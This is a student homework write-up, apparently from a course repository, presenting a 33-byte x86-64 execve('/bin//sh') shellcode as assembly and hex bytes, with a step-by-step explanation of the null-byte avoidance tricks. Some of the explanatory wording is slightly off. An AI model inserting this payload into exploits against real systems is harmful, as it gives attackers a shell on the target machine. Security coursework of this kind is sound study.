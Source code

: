 # Homework 1
## Code Block
The assembly instructions for my shellcode (minus the header, function prologue/epilogue for brevity):
```
push %rbp
mov %rsp, %rbp
xor %rax, %rax
push %rax
push $0x68732f2f
push $0x6e69622f
mov %rsp, %rdi
xor %rsi, %rsi
xor %rdx, %rdx
mov $0x3b, %al
syscall
leave
ret
```
My shellcode was 33 bytes long, and the hex representation is:
`55 48 89 e5 48 31 c0 50 68 2f 2f 73 68 68 2f 62 69 6e 48 89 e7 48 31 f6 48 31 d2 b0 3b 0f 05 c9 c3`
## Explanation
First, the `xor` instruction applied to the RAX register against itself zeroes out all the bits in the register.
This value is pushed to the stack, followed by the string "/bin//sh" in reverse-bit order ("hs//" in one instruction, followed by "nib/"). 
Reversing the string accounts for a little-endian system, and pushing RAX before this allows me to have a null-terminated
string when the stack pointer is moved into RDI. RDI denotes the first argument of the execve instruction, and in this case the pathname of the executable to be run.
Next, both the RSI and RDX registers are zeroed out in the same way as RDI -- these represent the next two arguments of execve, which can be pointers to null in this case.
The `mov` instruction to place the value 0x3b into the AL register loads the RAX register with the opcode for execve.
Finally, the `syscall` instruction prompts the operating system to replace the currently-running terminal with /bin//sh.

To avoid having any null bytes in my shellcode, I first opted for using the `xor` instruction to zero out any registers that needed to be cleared. 
Next, to avoid the null byte generated by loading "/bin/sh\0" into the stack, I pushed the empty RAX terminal into the stack before the string, and replaced the null character
with an extra slash, so "/bin//sh" is summoned instead. Finally, instead of addressing RAX as a whole when loading 0x3b to serve as the opcode, I specified the register AL,
which is the least-significant byte of the RAX. Because that register was previously zeroed out, this allowed the correct value to load into the register without the
null bytes which would be generated had I addressed RAX as a whole.
